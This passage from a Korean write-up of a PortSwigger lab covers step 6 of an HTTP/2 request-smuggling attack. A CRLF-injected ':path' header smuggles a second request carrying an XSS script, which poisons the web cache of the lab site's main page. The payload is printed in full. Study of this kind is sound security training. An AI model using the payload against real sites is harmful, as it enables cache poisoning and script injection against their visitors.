```


**Step 6) 메인 페이지 공격**
래퍼 요청의 경로를 ‘/’ 으로 수정하여 사용자가 메인 페이지(/) 접속 시에도 공격자의 스크립트가 동작하도록 웹 캐시를 Posioning 시킵니다.

아래와 같이 헤더를 입력하여 전송하면 메인 페이지에 접속 시 XSS 공격 스크립트가 동작합니다.

Header name
```
:path
```
Header value
```
/ HTTP/1.1
Host: ac9b1f6d1fcb908bc1369d4a00060033.web-security-academy.net\r\n
\r\n
GET /resources?<script>alert(1)</script>vvvvvvvvvvvvvvvvvv... HTTP/2\r\n
foo: x
```


# 📖 06. References
[1] https://portswigger.net/web-security/request-smuggling/advanced

